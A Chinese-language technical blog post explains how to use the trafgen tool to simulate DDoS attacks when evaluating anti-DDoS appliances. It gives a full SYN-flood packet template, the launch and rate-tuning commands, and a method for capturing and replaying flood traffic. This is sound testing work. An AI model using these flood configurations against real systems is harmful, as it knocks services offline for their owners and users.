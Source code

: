 ```yaml
---
title: 高性能流量生成工具trafgen(DDoS模拟)
layout: post
author: WenfengShi
category: 技术
tags: [network, dos, tools]
---
```

> 因项目需要，自己需要对主流的几家抗DDoS设备做测评， 当然了最专业的是使用Spirent TestCenter，但限于其他因素，最终决定搭建一个软件环境来进行相关的DDoS测试。本文主要讲解的如何trafgen工具来发起DDoS工具(syn flood, ack flood等等)

> synflood攻击、ackflood攻击、UDP fragment攻击的详细配置文件见 [github ddos-dos-tools][1]


## 工具选择
1. 开源的流量生成工具很多，可用于模拟DoS攻击的工具也不在少数，如hping、scapy（python库）等等，但均存在着不足，如性能不够，不能模拟DDoS攻击（攻击流IP和PORT不能动态变化）
2. 通过详细的对比测试（同hping、scapy、LOIC等对比测试，具体数据不宜公开），最后统一选择了**netsniff-ng**套件中的**trafgen**攻击，其在测试环境中可达到**24万pps**的SYNFLOOD攻击，是一款高速、多线程网络数据包生成工具
3. trafgen 工具能够动态生成攻击IP和端口号，能够通过配置文件动态修改攻击包的内容

## 简单使用
### 1. 安装
trafgen属于netsniff-ng套件，是一款linux下的工具，安装很方便，通过系统的在线安装工具即可完成安装，如centos下`yum install netsniff-ng`即可
### 2. 使用（SYN Flood攻击）
1. 工具的比较简单，主要是配置文件的编写，假设已经写好了一个synflood配置文件
- 键入命令`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose`即可发起攻击
- 进一步的还可通过`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose --gap 1000` （以毫秒为单位）来调节速度
- 进一步的还可通过`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose --kernel-pull 20` (默认10us）来调节速度
- 详细的可以`man trafgen`

2. 配置文件解读（以synflood.trafgen文件为例）
- *synflood.trafgen* 模版，trafgen就是通过该文件来生成特定的数据包的！看配置文件的注释基本能清除如何修改

```
/* TCP SYN attack ( 64byte )
 * Command example:
 *  trafgen --cpp --dev em2 --conf synflood.trafgen --verbose
 * Note: dynamic elements "drnd()" make trafgen slower
 */

#define ETH_P_IP	0x0800

#define SYN		(1 << 1)
#define ACK		(1 << 4)
#define ECN		(1 << 6)

{
  /* --- Ethernet Header --- */
  /* NEED ADJUST */
  // 0x00, 0x12, 0xc0, 0x02, 0xac, 0x56,  # MAC Destination
  // 0x00, 0x12, 0xc0, drnd(3),  # MAC Source
  0xf4, 0xe9, 0xd4, 0x8d, 0x04, 0x82, # MAC Destination
  0xf4, 0xe9, 0xd4, 0x8c, 0xe2, 0xa2, # MAC Source
  
  const16(ETH_P_IP),
  /* IPv4 Version, IHL, TOS */
  0b01000101, 0,
  /* IPv4 Total Len */
  const16(46),
  /* IPv4 Ident */
  drnd(2),
  //const16(2),

  /* IPv4 Flags, Frag Off */
  0b01000000, 0,
  /* IPv4 TTL */
  64,
  /* Proto TCP */
  0x06,
  /* IPv4 Checksum (IP header from, to) */
  csumip(14, 33),

  /* NEED ADJUST */
  // 10, 10, 88, drnd(1), # Source IP
  10, 10, 88, 173,  # Source IP
  10, 10, 88, 172, # Dest IP

  /* TCP Source Port */
  drnd(2),
  /* TCP Dest Port */
  const16(80),
  /* TCP Sequence Number */
  drnd(4),
  /* TCP Ackn. Number */
  const32(0), /* NOTICE ACK==zero with SYN packets */

  /* TCP Header length + Flags */
  //const16((0x5 << 12) | SYN | ECN)	/* TCP SYN+ECN Flag */
  //const16((0x5 << 12) | SYN | ACK)	/* TCP SYN+ACK Flag */
  const16((0x5 << 12) | SYN)		/* TCP SYN Flag */
  //const16((0x5 << 12) | ACK)		/* TCP ACK Flag */

  /* Window Size */
  const16(16),
  /* TCP Checksum (offset IP, offset TCP) */
  csumtcp(14, 34),
  const16(0), /*PAD*/
  
  /* Data */
  "SYNswf"
}
```

- 配置文件可通过`drnd()`函数来实现对应内容的动态生成，如IP、MAC地址等，但是会影响性能

![image_1b6bf8ooa3im1ioc1kc7aeu1qo89.png-6kB][2]

- 修改MAC地址（攻击/被攻击MAC地址）

![image_1b6bfeukr5m628h14ciupq1tnnm.png-11.8kB][3]

- 修改IP地址和攻击协议及端口号，`const16()`将对应的十进制数转换成一个16位的二进制数

![image_1b6bftaek14a4il1fp5l3dr5213.png-15kB][4]

- 修改位SYN标志(根据情况也可修改为其他的)

![image_1b6bfv9751ojs1g6klulc4jaak1g.png-11.6kB][5]

### 3. ACKFlood 攻击
- 配置文件见 [github ddos-dos-tools][6]

### 4. UDP fragment 攻击
- 配置文件见 [github ddos-dos-tools][7]

### 5. 退出命令
统一退出命令`pgrep trafgen | xargs kill -s 9`


## 其他
1. 在trafgen性能仍打不到要求的情况下，可通过netsniff-ng攻击进行流量回放，如下
- 先捕获synfloog攻击数据包
`netsniff-ng --in ens33 --out synflood.pcap --silent --verbose --filter 'ether src 00:50:56:ab:a5:3f'`
`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose`
- 再重放synflood攻击数据包
`netsniff-ng --in synflood.pcap --out ens33 --silent --prio-high --verbose`
2. 在用trafgen进行实时流量生成或者netsniff-ng重放时，还可通过工具`tc`进行流量控制，具体请见["linux流量控制工具tc](http://)一文，简单举例如下
![image_1b6bgp1mntnf15a61bppjvs1f7a1t.png-15.8kB][8]



  [1]: https://github.com/wenfengshi/ddos-dos-tools
  [2]: http://static.zybuluo.com/wuzhimang/mhfkf1drooxo2ua6ty5cceed/image_1b6bf8ooa3im1ioc1kc7aeu1qo89.png
  [3]: http://static.zybuluo.com/wuzhimang/c9tv8lr5a7elsipj8zwjl6tl/image_1b6bfeukr5m628h14ciupq1tnnm.png
  [4]: http://static.zybuluo.com/wuzhimang/hujkjhes3d7n42iptoaovv2o/image_1b6bftaek14a4il1fp5l3dr5213.png
  [5]: http://static.zybuluo.com/wuzhimang/28r16zkja4memce251azvmx4/image_1b6bfv9751ojs1g6klulc4jaak1g.png
  [6]: https://github.com/wenfengshi/ddos-dos-tools
  [7]: https://github.com/wenfengshi/ddos-dos-tools
  [8]: http://static.zybuluo.com/wuzhimang/b16skp1a811ullz8hfuzq0h0/image_1b6bgp1mntnf15a61bppjvs1f7a1t.png
